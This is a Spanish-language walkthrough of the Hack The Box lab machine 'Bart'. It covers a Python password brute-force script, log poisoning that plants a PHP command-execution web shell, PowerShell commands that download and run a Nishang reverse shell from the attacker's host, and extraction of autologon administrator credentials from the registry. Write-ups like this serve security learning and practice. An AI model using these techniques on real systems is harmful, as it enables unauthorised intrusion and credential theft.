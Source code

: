 ```yaml
---
layout: post
title: Bart
date: 2022-11-16
categories: ["HTB"]
thumbnail: "assets/images/Bart.png"
---
```


# Bart [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.81 -oG allPorts`
- `nmap -sCV -p80 10.10.10.81 -oN targeted`

`NMAP` nos dice que no ha seguido el redireccionamiento a `http://forum.bart.htb`.

### Inspección #1

Una vez haymos agregado `bart.htb` y `forum.bart.htb` al archivo `/etc/hosts` podemos ver la página sin problema. Nos encontramos en una página de negocios y tecnología revolucionaria, al inspeccionar el código fuente vemos un comentario añadiendo a otro desarrollador y nos dice que no puede añadirlo, ya que el `CSS` se rompe, por lo que lo deja ahí.

No hay nada interesante, pero si nos fijamos vemos que estamos en un subdominio, así
que con WFuzz vamos a enumerar subdominios para descubrir si hay más.

- `wfuzz -w top1million-2000.txt -H "Host: FUZZ.bart.htb" -t 100 10.10.10.81`

Bien! Gracias a `WFuzz` hemos descubierto otro subdominio (`monitor.bart.htb`)! Nos dirigimos a la página para ver a lo que nos estamos enfrentando. Tenemos ante nosotros un panel `login` de `PHP Server Monitor`, no disponemos de ningún usuario válido y menos de una contraseña, pero vemos un botón para restaurar la contraseña, cuando lo clicamos no nos pide un correo, sino un nombre de usuario, por lo que vamos probando hasta que damos con el usuario `harvey`. En la página principal veíamos varias personas y en el código fuente a `Harvey`, por lo que podíamos intuir lo que había que hacer.

Ahora bien, seguimos sin tener ninguna contraseña, aunque para eso usaremos `CeWL`, una herramienta hecha en `Ruby` que nos permite crear `wordlists` customizadas, en este caso queremos que nos saque una `wordlist` de la página inicial.

- `cewl -w cewl-forum.txt -e -a http://forum.bart.htb`

Bien! Ya tenemos una `wordlist` customizada! Ahora hice un `script` en `Python` para probar todas las contraseñas de ese diccionario.

```
import requests

with open("cewl-forum.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for passwd in lines:
        passwd = str(passwd).replace("\n", "").lower()
        cookies = {"PHPSESSID": "71793v7dsekogj5f3o0seo4341"}
        data = {
        "csrf": "999792d7ce[...]e511694927ca218",
        "user_name": "harvey",
        "user_password": f"{passwd}",
        "action": "login",
        }

        r = requests.post("http://monitor.bart.htb/", cookies=cookies, data=data)
        print(f"Harvey [ {passwd} ] | " + str(len(r.content)))
```

Como vemos en este `script` medimos la longitud de la respuesta, ya que si la contraseña es incorrecta siempre es la misma longitud, en cambio, cuando la longitud haya cambiado significará que la contraseña es correcta. Tras unos minutos hemos podido obtener la contrasña de Harvey (`harvey:potter`)!

### Inspección #2

Una vez estemos dentro del panel veremos varios apartados arriba, nos dirigimos a `Servers` y vemos otro subdominio, vamos a agregarlo al archivo `/etc/hosts`.

Una vez agregado entramos y vemos otro panel `login`, nos disponemos a `fuzzear` la página con `WFuzz` para encontrar archivos con extensión `PHP`.

- `wfuzz dir -u "http://internal-01.bart.htb/simple_chat/FUZZ.php" -w directory-list-2.3-medium.txt`

Gracias a esto vemos un archivo llamado `register.php`, investigando un poco más sobre `SimpleChat` vemos que es un proyecto de código abierto y está disponible en `GitHub`, por lo que mirando el código vemos que necesitamos dos parámetros (`uname` y `passwd`) y que la petición se tramita mediante `POST`, por lo que nos podemos crear un usuario tramitando una petición con `CURL`.

```
data="uname=black&passwd=password"
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "$data"
```
Bien! Hemos creado un usuario! Ahora podemos acceder al panel para poder continuar. Es simplemente un chat, vemos mensajes pero no son relevantes, lo importante está en el código fuente, el cual está algo cambiado respecto al original, añadiendo así un pequeño `script`:

```
<div id="log_link">
  <script>
    function saveChat() {
      // Create a serialized object and send to log_chat.php.
      // Once done the XHR request, alert "Done"
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          alert(xhr.responseText);
        }
      }
      xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
      xhr.send(null);
      alert("Done");
    }
  </script>
  <a href="#" onclick="saveChat()">Log</a>
</div>
```

Cuando el usuario clica el link Log ejecuta la función `SaveChat`, la cual hará saltar una ventana diciendo `Done` y luego otra diciendo `1`. Eso es debido a que la función `xhr.open` es llamada con el tercer parámetro `true`, que pone la llamada al modo `async`. El `script` dice `Done` y luego, una vez la petición regresa, la función `xhr.onreadystatechange` es llamada, alertando así del texto con la respuesta.

Si nos vamos manuealmente a la URL veremos un código de estado `1`, pero si cambiamos el nombre de usuario vemos `0`. Hay un parámetro llamado `filename`, el cual tiene como valor `log.txt`, entramos `http://internal-01.bart.htb/log/log.txt` y vemos que existe, por lo que me hace pensar que se está creando un archivo el cual muestra nuestro `User-Agent`.

Con esto en cuenta nos acordamos del `Log Poisoning` o `Envenenamiento de Registros`, así que vamos a probarlo. Para ello cambiaré mi User-Agent a `<?php phpinfo(); ?>` para que cuando cargue nos interprete el `PHP` y podamos ver la información de `PHP`.

```
import requests

headers = {'User-Agent':'<?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
```

Una vez ejecutado el script nos dirigimos a `http://internal-01.bart.htb/log/phpinfo.php` y podremos ver que la inyección ha salido bien, por lo que ahora podemos crear otro archivo pero que tome el parámetro cmd para ejecutar el comando a nivel de sistema y representar el resultado, para ello cambiaremos el `User- Agent` a `<?php system($_REQUEST['cmd']); ?>`.

Bien! Ya podemos ejecutar comandos a nivel de sistema!

### Shell

Para obtener una Shell me descargué un archivo `PS1` llamado [`Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del
repositorio [`Nishang`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Una vez lo tenía de manera local le añadí al final una línea para poder entablarnos la conexión y me puse en escucha con `NC`.

- `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444`
- `nc -nlvp 4444`

Bien! Ya estamos preparados para obtener la Shell! De nuevo usaremos `Python` para montarnos un servidor y mandar la petición de una manera más cómoda.

- `python3 -m http.server 80`

```
import requests

cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/Invoke-PowerShellTcp.ps1')"
r = requests.get('http://internal-01.bart.htb/log/black.php?cmd={}'.format(cmd))
```

Bien! Hemos recibido la conexión! Ya estamos en la máquina como `IUSR`!


### Subida de privilegios

Ahora que estamos en la máquina hay que intentar ser administradores, para ello comenzé con pruebas estándar para la subida de privilegios en `Windows`. Tras estar probando encontré credenciales por defecto en los registros de `autologon`.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```
DefaultDomainName REG_SZ DESKTOP-7I3S68E
DefaultUserName REG_SZ Administrator
DefaultPassword REG_SZ 3130438 f31186fbaf962f407711faddb
```

Para obtener la Shell como `Administrator` edité el `script` que habíamos utilizando anteriormente cambiándole el puerto a `443`, una vez hecho eso me puse en escucha, me monté un servidor en `Python` y pasé a hacer lo siguiente:

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object
Net.WebClient).downloadString('http://10.10.14.15/Shell.ps1') } -Credential $cred
-Computer localhost
```

Enhorabuena! Ya estamos como `bart\administrator` en la máquina! Vaya desafío!
